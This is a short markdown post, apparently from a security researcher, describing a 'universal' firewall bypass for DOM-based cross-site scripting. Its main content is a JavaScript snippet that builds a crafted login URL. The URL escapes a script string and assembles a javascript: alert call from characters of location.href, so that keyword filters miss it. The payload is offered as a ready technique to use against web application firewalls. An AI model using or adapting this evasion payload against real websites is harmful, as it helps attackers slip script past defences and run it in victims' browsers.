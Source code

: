 ## Universal WAF BYPASS for DOM XSS
I think such bypass should work on lot's of firewalls, here's the logical bypass I use :DD

For example if reflection is inside `<script>..."REFLECTION"...</script>```

You can use link after modifying below script and getting the crafted with payload link.

```
console.log(`view-source:https://REDACTEDHOSTNAME/login/?abcdefghijklmopqrstuvwxyz=0&next=mySafeStr"-(()=>{`+encodeURIComponent(`let k=location.href;location=k[40]+k[31]+'Vas'+k[33]+'rip'+k[49]+k[5]+k[31]+'l'+k[35]+'rt%28%29'`)
+`})()-"` )
```
